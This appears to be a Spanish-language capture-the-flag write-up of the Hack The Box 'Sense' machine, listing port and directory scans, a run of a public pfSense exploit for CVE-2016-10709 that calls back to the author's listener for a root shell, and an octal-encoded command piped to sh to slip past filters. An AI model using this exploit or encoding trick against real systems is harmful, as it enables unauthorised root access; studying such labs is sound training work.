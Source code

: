 # Sense-HTB
Resolucion de la maquina

## NMAP

```
sudo nmap -sSV -p80,443 10.129.76.69 -oN scan

```
 Tenemos el puerto 80 y el 443 abieto.

 ## FFUF

Aunque se necesito hacer esto recursivamente y se tuvo que usar el Dirbuster

```
ffuf -r -fc 404 -t 100  -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://10.129.76.69/FUZZ.txt 

```

## Dirbuster

![image](https://github.com/gecr07/Sense-HTB/assets/63270579/1a524956-8a6f-4612-93a9-ed001a85aa0e)


![image](https://github.com/gecr07/Sense-HTB/assets/63270579/6e8a2471-2a37-4733-b3d1-3568191cb567)


Para encontrar cosas admito que es mejor esta herramienta. En este caso necesitabamos encontrar un txt.

```
dirbuster -u https://10.129.76.69 -t 20 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r dirout.ext -e php,txt,html
```

## searchsploit

```
searchsploit -x #examina
searchsploit -m # mueve

```

## RCE

Para buscar exploits aprendimos una cosa nueva poner entre comillas el cve por ejemplo: "CVE-2016-10709" (or Google will return others)

![image](https://github.com/gecr07/Sense-HTB/assets/63270579/bd04aa38-a5ef-45c4-855a-cfa7e64179c2)

```
python3 43560.py --rhost 10.129.76.69 --lhost 10.10.14.10 --lport 4444 --username rohit --password pfsense

```

Regresa una shell con privilegios de root no me dejo hacer ni full tty.

## Plus

Viendo un pcoo los writeups me di cuenta como funciona esta payload. por ejemplo para crear un payload mas o menos con esta tecnica.

![image](https://github.com/gecr07/Sense-HTB/assets/63270579/514be4fb-928e-45e9-b484-04eccfc30656)


```
# Si pones lo decodifica auque sea base octal nose asi funciona 
printf '\164\157\165\143\150\040\057\164\155\160\057\060\170\144\146'        
touch /tmp/0xdf

#Ahora si lo pasas a |sh|echo el echo solo mete un salto de linea.

printf '\164\157\165\143\150\040\057\164\155\160\057\060\170\144\146'|sh|echo

## Guarda los numeros octales decodificados en ese archivo

printf '\164\157\165\143\150\040\057\164\155\160\057\060\170\144\146' | xargs echo -e > archivo_decodificado.txt

```

> https://0xdf.gitlab.io/2021/03/11/htb-sense.html












































